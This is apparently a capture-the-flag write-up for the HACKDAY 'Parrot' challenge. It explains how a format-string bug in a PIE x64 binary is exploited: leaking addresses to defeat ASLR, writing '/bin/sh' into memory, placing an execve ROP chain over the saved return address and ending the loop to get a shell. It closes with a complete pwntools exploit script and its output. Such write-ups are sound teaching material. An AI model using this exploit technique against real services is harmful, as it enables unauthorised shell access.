



# Parrot

> Our investigation results are clear, agent: corruption is alive and well in the administration of the largest zoo in the Pisces area. \
> We have spotted a parrot simulator inside the zoo for tourists that seems to be connected to the network... \
> Compromise their systems!
> 
> **The flag is in the file `flag.txt` on the server and is in the format `HACKDAY{...}`.**

## Overview

For this challenge, we're provided with the binary and a remote instance at `sie2op7ohko.hackday.fr:1341`. Let's run `file` and `checksec` on the binary.

```
$ file parrot 
parrot: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f0ea624738e725a3dcc9529731d91dc543927e5c, not stripped
$ checksec parrot
[*] '/home/elf/Downloads/parrot'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

It's an x64 ELF for Linux. Nothing fancy here, it's just the usual binary we're used to. On the other hand, the binary is PIE, has the bit NX set and has full RELRO. \
Let's run it.

```
$ ./parrot 
PARROT SIMULATOR
*The parrot stares at you, waiting for something*
> hello there
hello there
*The parrot stares at you, waiting for something*
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA*The parrot stares at you, waiting for something*
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA*The parrot stares at you, waiting for something*
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*The parrot stares at you, waiting for something*
> %x %x %x %x %x
78252078 0 4f5266bf 809743e0 0
*The parrot stares at you, waiting for something*
> ^C
```

The binary is literally just yelling at us the same thing we entered. \
It doesn't seem to have a buffer overflow, but it does have a format string vulnerability.

The easy win strategy of replacing a GOT entry with a [one gadget](https://github.com/david942j/one_gadget) will not work here because of the full RELRO. \
However, we can take advantage of the fact that the binary is running in an endless loop to write a lot of different things.

## TL;DR

Because we don't directly have libc, instead of leaking it, the easier strategy we'll use in our case will be to write `/bin/sh` somewhere in memory, then write an execve ropchain directly on the stack, and finally interrupt the endless loop to allow the function to return and trigger our ropchain.

I used pwntools and its amazing FmtStr class to automate the exploitation.

## Defeat ASLR

First things first, we need to defeat ASLR before doing anything more, because we'll need to know the addresses of the interesting places. For that, we can use a few `%x` to leak addresses from the stack. \
That will allow us to compute the base address of the binary and the addresses of things on the stack using the known offsets of the leaks.

The interesting addresses to leak with `%x` and their offsets can be figured out in gdb by breaking on the vulnerable printf call and searching on the stack.

```py
fmt_str = FmtStr(send_payload)

code_offset = 0x1235
stack_offset = 0x20EC9

leaks = send_payload(b"%11$lx %13$lx")
stack_leak, code_leak = map(lambda x: int(x, 16), leaks.decode().split(" "))
binary_base = code_leak - code_offset

log.info(f"binary base @ {hex(binary_base)}")
```

## Write `/bin/sh` in memory

Running a `strings parrot | grep /bin/sh` unfortunately doesn't give us any result. As we don't have the libc and would need to leak it first, it is easier to just use the format string to write this string in memory.

If we look at the writable sections of the binary, we can see in the `.data` section an 8 bytes location named `__data_start` initialized with zero. No idea what is its original purpose, but let's use that to store `/bin/sh`!



```py
writable_data = 0x4000 + binary_base

write_bin_payload = fmt_str.write(writable_data, b"/bin")
fmt_str.execute_writes()
write_sh_payload = fmt_str.write(writable_data + 4, b"/sh\0")
fmt_str.execute_writes()
```

## Find gadgets and write a ropchain

Let's run `ROPgadget` to look for useful gadgets.

```
$ ROPgadget --binary ./parrot
Gadgets information
============================================================
[...]
0x000000000000124b : pop rdi ; ret
0x00000000000011df : pop rdx ; pop rax ; ret
0x0000000000001249 : pop rsi ; pop r15 ; ret
[...]
0x00000000000011dd : syscall
[...]

Unique gadgets found: 88
```

Perfect, we have every gadget needed to craft an `execve` syscall! Let's just create our ropchain and use the format string to write it on the return address of the function. The offset on the stack of this return address is once again just found using gdb.

```py
saved_rip = stack_leak - 0x2D1

syscall = 0x11dd + binary_base
pop_rdi = 0x124b + binary_base
pop_rsi_r15 = 0x1249 + binary_base
pop_rdx_rax = 0x11df + binary_base
pop_rax = 0x11e0 + binary_base

execve = 0x3B
argv = 0
envp = 0

rop_chain = p64(pop_rdi) + p64(writable_data)
rop_chain += p64(pop_rsi_r15) + p64(argv) + p64(0)
rop_chain += p64(pop_rdx_rax) + p64(envp) + p64(execve_syscall_number)
rop_chain += p64(syscall)


for i in range(0, len(rop_chain), 4):
    dword = rop_chain[i:i+4]

    fmt_str.write(saved_rip + i, dword)
    fmt_str.execute_writes()
```

## Stop the endless loop

Everything is in place! We have our ropchain on the stack, that will be executed and spawn a shell once the function ends. Yes, but... the function never ends! \
If we take a look at the function in IDA, we can see it checks a global variable.



This global variable is located in the `.bss` section and there's no code anywhere that is able to change its value.



We just have to write a 1 in this location and the loop will end, triggering the end of the function and so our ropchain execution!

```py
exit_payload = fmtstr_payload(fmt_str.offset, { should_exit: 1 })
r.sendlineafter(b"> ", exit_payload)
```

## Putting everything together

If we put every step together in one big script to do the full exploitation, here is how it looks like:

```py
from pwn import *

context.binary = "bin/parrot"
r = remote("sie2op7ohko.hackday.fr", 1341)

def send_payload(data):
    r.sendlineafter(b"> ", data)
    return r.recvline()

fmt_str = FmtStr(send_payload)
offset = fmt_str.offset

code_offset = 0x1235
stack_offset = 0x20EC9

leaks = send_payload(b"%11$lx %13$lx")
stack_leak, code_leak = map(lambda x: int(x, 16), leaks.decode().split(" "))
binary_base = code_leak - code_offset

log.info(f"binary base @ {hex(binary_base)}")

writable_data = 0x4000 + binary_base
should_exit = 0x4029 + binary_base
saved_rip = stack_leak - 0x2D1

# write /bin/sh in the .data section

write_bin_payload = fmt_str.write(writable_data, b"/bin")
fmt_str.execute_writes()
write_sh_payload = fmt_str.write(writable_data + 4, b"/sh\0")
fmt_str.execute_writes()

# build the rop chain

syscall = 0x11dd + binary_base
pop_rdi = 0x124b + binary_base
pop_rsi_r15 = 0x1249 + binary_base
pop_rdx_rax = 0x11df + binary_base
pop_rax = 0x11e0 + binary_base

execve = 0x3B
argv = 0
envp = 0

rop_chain = p64(pop_rdi) + p64(writable_data)
rop_chain += p64(pop_rsi_r15) + p64(argv) + p64(0)
rop_chain += p64(pop_rdx_rax) + p64(envp) + p64(execve)
rop_chain += p64(syscall)


for i in range(0, len(rop_chain), 4):
    dword = rop_chain[i:i+4]

    fmt_str.write(saved_rip + i, dword)
    fmt_str.execute_writes()

sh_payload = fmtstr_payload(offset, { should_exit: 1 })
r.sendlineafter(b"> ", sh_payload)

r.sendline(b"cat flag.txt")
print(r.recvline().decode())
```

Result:

```
$ python3 exploit.py
[*] '/home/elf/Downloads/parrot'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to sie2op7ohko.hackday.fr on port 1341: Done
[*] Found format string offset: 6
[*] binary base @ 0x555555554000
[+] HACKDAY{n0th1ng_r3515t_f0rm4t_str1ng5_w1th_r0p_ch41n5}
[*] Closed connection to sie2op7ohko.hackday.fr port 1341
```

Flag: `HACKDAY{n0th1ng_r3515t_f0rm4t_str1ng5_w1th_r0p_ch41n5}`